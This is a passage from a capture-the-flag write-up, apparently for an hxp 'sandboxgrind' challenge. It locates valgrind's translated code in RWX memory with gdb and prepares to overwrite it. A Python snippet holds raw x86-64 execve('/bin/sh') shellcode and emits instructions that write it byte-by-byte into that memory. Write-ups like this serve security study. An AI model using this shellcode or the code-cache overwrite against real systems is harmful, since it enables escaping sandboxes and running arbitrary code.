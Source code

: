 ```py
jne loop

jmp cool

ret
```

The special constant will allow us to find the translation for the `cool:` block:

```
$ sudo gdb -p 251329

gef➤  search-pattern 0xfaceb00b
[+] Searching '\x0b\xb0\xce\xfa' in memory
[+] In '/home/andrew/hxp/sandboxgrind/solve/attempt1'(0x401000-0x402000), permission=r-x
  0x401002 - 0x401012  →   "\x0b\xb0\xce\xfa[...]" 
[+] In (0x1002001000-0x10026bc000), permission=rwx
  0x1002003400 - 0x1002003410  →   "\x0b\xb0\xce\xfa[...]" 
[+] In (0x1002b71000-0x1003af1000), permission=rwx
  0x1002d9d00a - 0x1002d9d01a  →   "\x0b\xb0\xce\xfa[...]" 
  0x1002d9d2f2 - 0x1002d9d302  →   "\x0b\xb0\xce\xfa[...]" 
gef➤  
```

Our constant was only found in three rwx locations. The bottom two are plausible: We can look at the disassembly:

```
Dump of assembler code from 0x1002d9d000 to 0x1002d9d010:
   0x0000001002d9d000:  dec    DWORD PTR [rbp+0x8]
   0x0000001002d9d003:  jns 0x1002d9d008
   0x0000001002d9d005:  jmp    QWORD PTR [rbp+0x0]
   0x0000001002d9d008:  movabs r10,0xfaceb00b

gef➤  disass 0x1002d9d2f0,+16
Dump of assembler code from 0x1002d9d2f0 to 0x1002d9d300:
   0x0000001002d9d2f0:  movabs r10, 0xfaceb00b
   0x0000001002d9d2fa:  mov    QWORD PTR [rbp+0x40],r10
   0x0000001002d9d2fe:  mov    r11,0x40100c
```


This even shows the translation at work... valgrind translated our instruction to use a different register (r10 instead of rsi in the original code)... interesting!

So lets just place our shellcode at these addresses and see what happens:

First, generate instructions to place shellcode byte-by-byte using:

```py
data = b"\x48\xBF\x2F\x62\x69\x6E\x2F\x73\x68\x00\x57\x48\x89\xE7\x48\xC7\xC6\x00\x00\x00\x00\x48\xC7\xC2\x00\x00\x00\x00\xB8\x3B\x00\x00\x00\x0F\x05"
for i, b in enumerate(data):
    print(f"mov byte ptr [r12+{i}], {hex(b)}")
```
